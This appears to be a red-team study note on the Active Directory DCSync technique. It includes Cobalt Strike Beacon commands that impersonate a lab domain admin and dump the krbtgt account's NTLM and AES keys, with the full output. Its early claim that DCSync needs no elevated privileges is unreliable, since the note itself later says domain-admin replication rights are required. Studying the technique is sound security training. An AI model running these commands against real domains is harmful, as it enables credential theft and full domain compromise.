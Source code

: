 The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.

DCSync is a technique used particularly in the context of [[Active Directory]] environments, to retrieve password data from a [[Domain Controller]] without requiring elevated privileges or directly interacting with the targeted user's account. 

DCSync is a feature within the [[Mimikatz]] toolkit.


## 🖊️ How it works

1. **Domain Controller Interaction**: Mimikatz uses DCSync to interact with the domain controller's replication protocol, which is used to synchronize data between domain controllers in an Active Directory environment.
    
2. **Password Retrieval**: With DCSync, an attacker can request password data for a specified user account from the domain controller. This includes the password hash ([[NetNTLM]] or [[Kerberos]]) and other relevant information associated with the account.
    
3. **Low-Level Access**: Unlike traditional methods of password retrieval, such as credential dumping or brute force attacks, DCSync does not require elevated privileges or direct access to the target user's account. Instead, it leverages the domain controller's replication mechanism, making it a stealthy and effective technique for obtaining password data.

  This requires [GetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) which is usually only available to domain admins.  The technique is included here for completeness, and it will be useful later on.

## 🖊️ via [[Cobalt Strike]]

1) Beacon has a dedicated `dcsync` command, which calls `mimikatz lsadump::dcsync` in the background.

```
beacon> make_token DEV\nlamb F3rrari

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
		
* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```

Here we have extracted the NTLM and AES keys for the krbtgt account using _lamb_ (a domain admin).

### ⚠ Opsec

Directory replication can be detected if Directory Service Access auditing is enabled.

### Properties
---
📆 created   {{10-02-2024}} 21:57
🏷️ tags: #activedirectory #redteam #crto 

---

